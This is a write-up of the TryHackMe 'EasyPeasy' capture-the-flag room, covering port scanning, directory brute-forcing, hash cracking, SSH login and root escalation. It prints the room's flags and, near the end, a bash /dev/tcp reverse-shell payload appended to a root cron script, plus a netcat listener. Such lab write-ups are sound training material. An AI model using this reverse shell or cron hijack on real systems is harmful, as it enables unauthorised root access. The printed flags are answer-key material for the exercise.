

### Topic : TryHackMe Rooms (EasyPeasy CTF)
----

Walkthrough

Participating in the EasyPeasy CTF was an engaging experience, blending familiar techniques with some unexpected twists. Here’s a detailed account of the steps I took to solve the challenge.

Enumeration Through Nmap
The initial phase involved using Nmap for network scanning. Here are the commands and findings:

nmap -sCV $IP-ADDRESS

Nmap Output:
Starting Nmap 7.93 ( https://nmap.org ) at 2023-02-10 15:21 UTC
Nmap scan report for ip-10-10-44-157.eu-west-1.compute.internal (10.10.44.157)
Host is up (0.0024s latency).
Not shown: 996 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
80/tcp   open  http    nginx 1.16.1
| http-robots.txt: 1 disallowed entry 
|_/
|_http-server-header: nginx/1.16.1
|_http-title: Welcome to nginx!
MAC Address: 02:00:81:F5:B8:01 (Unknown)

To expand the scan, I used a comprehensive Nmap command to cover a wider range of ports:
nmap -p- $IP-ADDRESS

Following that, I ran another scan targeting the specific ports identified earlier:
nmap -sCV -p80,6498,65524 $IP-ADDRESS

Findings:
Open Ports: 80, 6498, 65524
nginx Version: 1.16.1
Highest Port Service: Apache
Using GoBuster for Directory Enumeration

I utilized GoBuster to identify hidden directories and files:
gobuster dir -u http://$IP-ADDRESS -x html,txt,php,js,py -w /usr/share/wordlists/SecLists/Discovery/Web-Content/common.txt

From the hidden directories, I found an MD5 hash in the HTML source code, which I decoded using CyberChef to get the first flag.

Flag 1: flag{f1rs7_fl4g}

To further enumerate, I ran GoBuster on the other web server:

gobuster dir -u http://$IP-ADDRESS:65524 -x html,txt,php,js,py -w /usr/share/wordlists/SecLists/Discovery/Web-Content/common.txt

Output:
/index.html (Status: 200)
/robots.txt (Status: 200)
/server-status (Status: 403)
Cracking the Hash
The second flag involved cracking another MD5 hash, which I successfully did using md5hashing.net:

Flag 2: flag{1m_s3c0nd_fl4g}

From the main page on port 65524, I found a reference to the third flag in the HTML source.

Flag 3: flag{9fdafbd64c47471a8f54cd3fc64cd312}

Finding the Hidden Directory
I decoded the hidden text in the HTML source code using baseXX decoding algorithms until I found a path.

Hidden Directory: /n0th1ng3ls3m4tt3r

Inside this directory, another hash was discovered, which I cracked using John the Ripper:
john hash --wordlist=$downloaded-task-file-password.dic
Password: mypasswordforthatjob

SSH Login
Using the cracked password, I logged in via SSH:

ssh boring@$IP-ADDRESS -p 6498
Upon logging in, I encountered a warning message and retrieved the user flag, which seemed to be rotated. Using a Caesar cipher, I decoded it.

User Flag: flag{n0wits33msn0rm4l}

Root Flag Extraction
Finally, I checked the cron jobs in /etc/crontab and found a script that I could modify to gain root access. I used a reverse shell payload:

echo "bash -c 'exec bash -i &>/dev/tcp/$MY-VM-IP-ADDRESS/4444 <&1'" >> .mysecretcronjob.sh
I started a netcat listener:

nc -lvnp 4444
Once the reverse shell was initiated, I navigated to the root directory and found the root flag.

Root Flag: flag{63a9f0ea7bb98050796b649e85481845}

Conclusion
Despite its name, the EasyPeasy CTF presented significant challenges that required thorough enumeration and creative problem-solving. Special thanks to kral4 for crafting this engaging CTF. Each step was a learning opportunity, reinforcing key cybersecurity skills and strategies.